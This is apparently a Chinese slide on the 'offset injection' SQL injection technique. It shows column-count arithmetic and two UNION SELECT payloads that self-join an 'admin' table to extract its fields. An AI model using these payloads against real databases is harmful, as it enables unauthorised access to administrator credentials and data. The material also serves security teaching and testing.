

# 偏移注入
22-16=6
10+6*2=22
4+6*3=22
union select 1,2,3,4,5,6,7,8,9,10,a.id,b.id,* from (admin as a inner join admin as b on a.id=b.id)
union select 1,2,3,4,a.id,b.id,c.id,* from ((admin as a inner join admin as b on a.id=b.id) inner join admin as c on a.id=c.id)